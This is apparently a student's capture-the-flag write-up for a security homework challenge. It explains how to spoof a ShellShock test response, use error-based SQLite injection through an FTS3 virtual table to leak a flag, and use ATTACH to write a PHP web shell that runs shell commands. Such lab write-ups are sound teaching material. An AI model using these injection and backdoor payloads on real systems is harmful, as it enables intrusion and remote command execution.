 ```yaml
---
layout: post
title: 'ShellShock Writeup'
category: memo
slug: shellshock-writeup
---
```

Security Programming Homework 4-1

## Problem Description

The [ShellShock Tester][1] is the website that have some vulnerabilites.
According to the text on the website, the vulnerabilities might not be
ShellShock :(

At the bottom of the website it says "The response will be collected into
database". Maybe SQL injection will work! After trying various types of SQL
injection in that text input field I realized that I'm in the wrong way...

## Look Deeper

The ShellShock Tester must send something to the target website to test if it
has bash vulnerability. Using `nc` to see what are sent from the ShellShock
Tester.

```bash
$ nc -l -p 5566
```

And it turns out to be the following result:

```
GET / HTTP/1.1
User-Agent: () { :;}; echo 'ShellShockTester_atdog';
Host: 140.113.235.153:5566
Accept: */*
```


Ah-ha! The string `{ :;}; echo 'ShellShockTester_atdog';` is a typical method to
test if the bash which is currently using is vulnerable to CVE-2014-6271. A
system which is vulnerable will echo the string "ShellShockTester_atdog".
Similarly, the target website which runs CGI program will return the string if
it is vulnerable. So why don't we build a fake HTTP server to fool the
ShellShock Tester?

Building a simple HTTP server using python module [Flask][2]. It returns the
string when the ShellShock Tester queried for the index page. It seems that the 
ShellShock Tester stores the response returned from the target website into its 
database using `insert`. At the time the type of the database is still unknown.

So I append a single quote right after the string, and the result showed on the
ShellShock Tester is:

```
DATABASE Msg: unrecognized token: "'ShellShockTester_atdog'')"

Response: ShellShockTester_atdog'
```

Google for the error message, it says that it seems to be SQLite 3. On the other
hand, all error messages will showed means that we can use error-based SQL
injection.

## Error-based SQL Injection

Most of the error-based SQL injection methods are based on MySQL. But this time,
it is SQLite... Fortunately, I found a forum post which talks about SQLite
error-based injection, how lucky!

First, create a virtual table:

```sql
CREATE VIRTUAL TABLE v1 USING fts3(x);
```

To know which table and column contain the flag:

```sql
SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT sql FROM sqlite_master);
```

And finally, the flag showed up:

```sql
SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT flag FROM oyoyoyoy_____1111flag);
```

The queries listed above should be embedded into the sophisticatedly crafted
string. Using Python's format string will look like this:

```python
trick = 'ShellShockTester_atdog\'); {} --'
inj = 'create virtual table v1 using fts3(x);'
resp = trick.format(inj)
```

## Inject a Backdoor

Another method to pwn the ShellShock Tester is to place a backdoor in the
directory of the website.

```python
trick = 'ShellShockTester_atdog\'); {} --'
inj = 'ATTACH \'./lol.php\' AS lol; CREATE TABLE lol.pwn (dataz TEXT); INSERT INTO lol.pwn (dataz) VALUES (\'<pre><?php system($_GET["cmd"]); ?></pre>\');'
resp = trick.format(inj)
```

This will build a backdoor called `lol.php`. So anyone can visit that page along
with a "GET" argument `cmd`. The value of `cmd` could be any shell command. The
reason is that `ATTACH` command will attach a SQLite database. If the database
does not exist, it create the database which is a PHP file. The file's content
contains a short piece of PHP code showed above.

Simply visit the page "http://tor.atdog.tw:8888/lol.php?cmd=ls", it will list
every file in the current directory. And there is the SQLite database! Download
it and grab the flag!

## Flag

The flag is:

```
SecProg{SQL1teInject1on_yoooo}
```

## References

- [Select Queries][3]
- [SQLite 3 error-based injection][4]
- [SQLite3 Injection Cheat Sheet][5]
- [SQLite Injection \| Hits from the bits][6]

[1]: http://tor.atdog.tw:8888/index.php
[2]: http://flask.pocoo.org
[3]: http://sqlite.awardspace.info/syntax/sqlitepg03.htm
[4]: https://rdot.org/forum/showthread.php?p=26419
[5]: http://atta.cked.me/home/sqlite3injectioncheatsheet
[6]: http://gwae.trollab.org/sqlite-injection.html
